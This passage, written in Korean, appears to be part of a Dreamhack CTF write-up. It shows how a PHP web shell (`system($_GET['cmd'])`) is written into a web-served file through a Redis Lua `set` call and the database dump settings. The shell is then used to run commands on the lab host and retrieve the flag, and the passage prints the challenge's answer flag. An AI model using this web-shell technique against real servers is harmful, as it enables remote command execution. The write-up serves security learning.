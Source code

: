 그래서 위와 같이 즉시 저장하게끔 설정하면 **파일명**, **저장 경로**, **저장 주기** 를 모두 설정했다.  

``return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");``

그리고 다음과 같이 위의 Command 를 주고 save 를 누른 상태로 전송하면, **dir** 경로에 **dbfilename** 으로 ``<?php system($_GET['cmd']); ?>`` 가 저장된다고 한다.  

<img src="8.png">  

그 다음에 ``http://host3.dreamhack.games:19850/exploit.php?cmd=ls`` 와 같이 입력하면 웹쉘에서 ``ls`` 를 실행해서 다음과 같이 결과를 볼 수 있다.  

<img src="9.png">  

``http://host3.dreamhack.games:19850/exploit.php?cmd=file%20/flag`` 를 통해 flag 가 어떤 파일인지 확인할 수 있고, 다음과 같이 실행파일이라는 것을 알 수 있다.  

<img src="10.png">  

마지막으로 ``http://host3.dreamhack.games:19850/exploit.php?cmd=/flag`` 와 같이 입력하면 웹쉘에서 ``flag`` 가 실행되고, flag 를 얻을 수 있다.  

<img src="11.png">  

따라서 정답은 **DH{97c08d732ca9ad65e35c8781ea3178f2d27bd726}** 이다.  